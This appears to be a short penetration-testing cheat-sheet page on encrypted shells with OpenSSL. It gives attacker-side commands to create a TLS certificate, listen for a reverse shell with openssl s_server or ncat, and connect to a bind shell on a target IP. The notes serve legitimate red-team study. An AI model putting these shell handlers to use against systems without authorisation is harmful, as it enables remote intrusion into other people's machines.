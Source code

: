 # OpenSSL

## 01 - Reverse Shell

Generate TLS certificate.

```
userware@hackware-os:~$ openssl req -x509 -newkey rsa:4096 -days 365 -nodes -subj "/C=<country_code>/ST=<state>/L=<locality>/O=<organization_name>/OU=<organization_unit>/CN=<domain.com>/emailAddress=<email> -keyout private.key -out certificate.crt
```

Shell handler.

```
userware@hackware-os:~$ openssl s_server -quiet -key private.key -cert certificate.crt -port <PORT>

userware@hackware-os:~$ ncat --ssl --ssl-key private.key --ssl-cert certificate.crt -lp <PORT>
```

## 02 - Bind Shell

Shell handler

```
userware@hackware-os:~$ openssl s_client -quiet -connect <target_IP>:<target_PORT>

userware@hackware-os:~$ ncat --ssl <target_IP> <target_PORT>
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xA - Callback Shells/One-Liners/Linux/Reverse Shells/OpenSSL|OpenSSL: Reverse Shells]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xA - Callback Shells/One-Liners/Linux/Bind Shells/OpenSSL|OpenSSL: Bind Shells]]